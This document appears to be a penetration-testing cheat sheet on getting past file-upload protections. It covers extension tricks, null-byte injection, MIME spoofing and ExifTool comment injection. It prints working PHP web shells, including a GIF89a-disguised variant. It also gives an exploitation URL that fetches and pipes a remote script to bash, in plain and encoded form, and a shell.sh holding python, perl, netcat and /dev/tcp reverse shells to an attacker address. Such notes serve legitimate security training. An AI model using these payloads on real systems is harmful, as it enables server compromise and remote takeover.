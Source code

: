 # File upload bypass
According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections.
- Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
- Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
- Changing letters to capital form file.aSp or file.PHp3
- Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
- Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
- Upload a file with 2 extensions—> file.php.jpg
- Use of null character—> file.asp%00.jpg
- Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
- Combination of the above
## Bypassing Blacklists
Blacklisting is a type of protection where certain strings of data, in many cases, specific extensions, are explicitly prohibited from being sent to the web app server.
| Type       | Extention                                                       |
|------------|-----------------------------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, .php6, .pht, .pHp, .Php, .phP |
| asp        | asp, .aspx                                                      |
| perl       | .pl, .pm, .cgi, .lib                                            |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf                              |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                                         |

Create **shell.pHp**
```php
<?php system($_GET['c']); ?>
```
## Bypassing Whitelists
Using a reverse shell with a photo extension
```console
payload.php.jpg
```
Also using a *null character* injection we can bypass whitelist filters to make characters get ignored when the file is saved, injecting this between a forbidden extension and an allowed extension can lead to a bypass:
```console
payload.php%00.jpg OR payload.php\x00.jpg
```
Usually, if an whitelist accepts only images, it may also accept gif files too. Adding GIF89a; to the very top of your shell may help you bypass the restriction and let you execute the shell.
```console
GIF89a; <?php system($_GET['cmd']); ?>
```
## MIME Type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.
Normal php MIME type:
```console
Content-type: application/x-php
```
Replace with:
```console
Content-type: image/jpeg
```
## Exif Data, ExifTool (PHP getimagesize())
For file uploads which validate image size using php **getimagesize()**, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```console
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
## Exploitation
```url
http://10.10.10.185/images/uploads/3.php.png?cmd=wget -O - http://10.10.16.5:1234/shell.sh | bash
```
 *don't forget to use burp to encode "wget -O - http://10.10.16.5:1234/shell.sh | bash"*
```url
http://10.10.10.185/images/uploads/3.php.png?cmd=%77%67%65%74%20%2d%4f%20%2d%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%35%3a%31%32%33%34%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68
```
Create file *shell.sh*
```sh
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.5",5555)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi
if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.16.5";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi
if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 5555 >/tmp/f
        exit;
fi
if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.16.5/5555 0>&1
        exit;
fi
```
 *You can create a shell.sh file and do the same as above, or you can also manually try **reverse shell commands** one by one.*
